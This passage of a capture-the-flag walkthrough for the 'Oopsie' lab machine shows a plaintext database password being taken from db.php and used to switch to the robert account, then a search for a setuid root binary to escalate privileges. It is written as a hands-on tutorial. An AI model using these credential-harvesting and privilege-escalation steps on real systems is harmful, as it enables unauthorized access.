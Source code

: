 ```bash
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```
Seems like there is a credential for `robert`. Lets try if we can switch user to `robert`!
```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/var/www/html/cdn-cgi/login$ 
```
Nice! We then find out that `robert` is in a `bugtracker` group using ```id``` command
```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ id
id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```
Now we check what files does this group have~
```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ find / -type f -group bugtracker 2> /dev/null
/usr/bin/bugtracker
```
Seems like a `bugtracker` program? Lets check the permissions!

```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ ls -la /usr/bin/bugtracker
ls -la /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
```

It seems like the owner of the file is `root` but the `bugtracker` group can execute the program. Note that there is a `setuid` bit.. Maybe we can somehow exploit that by executing the file as `root`!

>   Source: [StackExchange](https://unix.stackexchange.com/questions/118853/what-does-the-s-attribute-in-file-permissions-mean)
>
>   That is the "setuid" bit, which tells the OS to execute that program with the userid of its owner. This is typically used with files owned by root to allow normal users to execute them as root with no external tools (such as `sudo`).

```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ /usr/bin/bugtracker
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
1
---------------

Binary package hint: ev-engine-lib

Version: 3.3.3-1

Reproduce:
When loading library in firmware it seems to be crashed

What you expected to happen:
Synchronized browsing to be enabled since it is enabled for that site.

What happened instead:
```